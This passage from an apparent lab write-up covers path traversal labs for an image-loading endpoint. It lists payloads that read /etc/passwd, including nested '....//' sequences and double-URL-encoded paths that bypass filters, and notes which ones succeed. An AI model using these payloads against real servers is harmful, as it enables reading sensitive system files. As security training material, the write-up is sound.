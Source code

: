 Same as before, open BurpSuite Proxy and send to Repeater the request `GET /image?filename=53.jpg`. This request is been commanded by the browser to load the image `53.jpg` which is stored in the server. Let's try some path traversal attacks.

```bash
# First try to exit var/www/images
../../../etc/passwd #Nope

# Now try Absolute Path
/etc/passwd #No Luck

# Server may have specific defences against path traversal attacks
# like removing suspicious characters (../)
....//....//....//etc/passwd #Success
```
![attack](lab6.png)

Even though the server removes all `../` characters, the remaining path is exactly what we want `../../../etc/passwd`.

___

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
<br>

Same as before, open BurpSuite Proxy and send to Repeater the request `GET /image?filename=53.jpg`. This request is been commanded by the browser to load the image `53.jpg` which is stored in the server. Let's try some path traversal attacks.

```bash
# First try to exit var/www/images
../../../etc/passwd #Nope

# Now try Absolute Path
/etc/passwd #Nope

# Server may have specific defences against path traversal attacks
# like removing suspicious characters (../)
....//....//....//etc/passwd #Nope

# Use of URL Encoding
# %2e = .
# %2f = /
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd #Nope

# Double URL Encoding
# %25 = %
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252Fpasswd #Success
```
![attack](lab7.png)

So in order to exploit this vulnearbility we need to encode our path traversal payload to Double URL Encoding.
